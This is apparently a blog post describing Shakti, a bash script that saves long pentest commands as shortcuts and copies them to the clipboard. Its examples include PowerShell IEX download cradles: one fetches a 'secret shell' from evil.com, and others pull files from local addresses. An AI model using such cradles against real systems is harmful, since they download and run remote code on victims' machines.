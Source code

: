 ```yaml
---
layout: post
title: Shakti - More than alias
categories: [bash, linux, kali]
---
```


## Introduction

Shakti is simple solution for typing long repetitive commands. How many times you have to type IEX(New-object Net.WebClient).DownloadString('http://evil.com/my_secret_shell') and at the end you did typo. Would not be better to quickly jump to another pane in your tmux session and type few commands and have exactly thing you need on your clipboard?


## Background

I tried to brush my bash scripting skill a little and I want to create some useful application for me. Also I tried use native linux application and. As db is simple file where I use awk command to pull information I need. 

## Usage

List command will print out all shortcut you created.


```
./shakti.sh list

 ▄▀▀▀▀▄  ▄▀▀▄ ▄▄   ▄▀▀█▄   ▄▀▀▄ █  ▄▀▀▀█▀▀▄  ▄▀▀█▀▄   
█ █   ▐ █  █   ▄▀ ▐ ▄▀ ▀▄ █  █ ▄▀ █    █  ▐ █   █  █  
   ▀▄   ▐  █▄▄▄█    █▄▄▄█ ▐  █▀▄  ▐   █     ▐   █  ▐  
▀▄   █     █   █   ▄▀   █   █   █    █          █     
 █▀▀▀     ▄▀  ▄▀  █   ▄▀  ▄▀   █   ▄▀        ▄▀▀▀▀▀▄  
 ▐       █   █    ▐   ▐   █    ▐  █         █       █ 
         ▐   ▐            ▐       ▐         ▐       ▐           
    Cosmic alias


Shortcut	|	Command
========================================================
list		-	List all commands
add [shotcut] [cmd]-	Add or modify existing shortcut
dell [shortcut]	-	Delete shorcut
info [shortcut]	-	Get Shortcut info details
tty		-	get python tty
http		-	Python server
iex		-	Powershell test
psds		-	Powershell IEX Download String
```

I already have some shortcut created so lets have a look into **psds** one with info option

```
./shakti.sh info psds

 ▄▀▀▀▀▄  ▄▀▀▄ ▄▄   ▄▀▀█▄   ▄▀▀▄ █  ▄▀▀▀█▀▀▄  ▄▀▀█▀▄   
█ █   ▐ █  █   ▄▀ ▐ ▄▀ ▀▄ █  █ ▄▀ █    █  ▐ █   █  █  
   ▀▄   ▐  █▄▄▄█    █▄▄▄█ ▐  █▀▄  ▐   █     ▐   █  ▐  
▀▄   █     █   █   ▄▀   █   █   █    █          █     
 █▀▀▀     ▄▀  ▄▀  █   ▄▀  ▄▀   █   ▄▀        ▄▀▀▀▀▀▄  
 ▐       █   █    ▐   ▐   █    ▐  █         █       █ 
         ▐   ▐            ▐       ▐         ▐       ▐           
    Cosmic alias


Shortcut :psds
Command: echo -n "IEX(New-Object Net.WebClient).DownloadString(\"$2\")"| xclip -selection clipboard;echo "Copied"

Description: Powershell IEX Download String
```

There is a quite command. Lets analyze it. It will print our IEX string where $2 will substitute for anything you input after **./shakti.sh psds** because we used **|** our string it will not be copied on terminal but into our clipboard. And them we see echo command to print info on terminal. So lets test it :) 

```
$ ./shakti.sh psds 'http://192.168.1.200/frienly_app'
Copied
```


![](/images/shakti/psds.png)

It did worked! Lets create shortcut on our own. Lets call it psdf and it will print IEX DownloadFile command on screen.

```bash
$ ./shakti.sh add psdf 'echo "IEX(New-Object Net.WebClient).DownloadFile(\"$2\",\"$3\")"' 'Powershell Download Files'                                                                      
Shortcut psdf added
$ ./shakti.sh psdf 'http://127.0.0.1/evil' 'C:\windows\tmp\very_nice_app'
IEX(New-Object Net.WebClient).DownloadFile("http://127.0.0.1/evil","C:\windows\tmp\very_nice_app")
```

If command already exist in database it will get overwrite.
There is also option for deleting your shortcut with option del. 

## Code 

Code can by find on my [github page](https://github.com/spyx/shakti) Any comment or suggestion let me know by dm's or directly on github.

## Credit 

I would like to give huge credit for Gerhard Kremer for picking amazing name that keeps me working to finish this project as he said

```
"Shakti - the cosmic principle that the goddess Kali is a manifestation of." 
```


